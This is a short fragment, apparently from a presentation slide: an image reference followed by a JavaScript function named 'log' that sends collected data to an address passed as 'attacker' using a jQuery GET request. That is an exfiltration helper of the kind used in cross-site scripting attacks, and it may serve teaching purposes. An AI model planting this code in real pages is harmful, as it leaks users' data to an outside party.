

function log(attacker, data) {
        console.log($.param(data));
        $.get(attacker, data);
}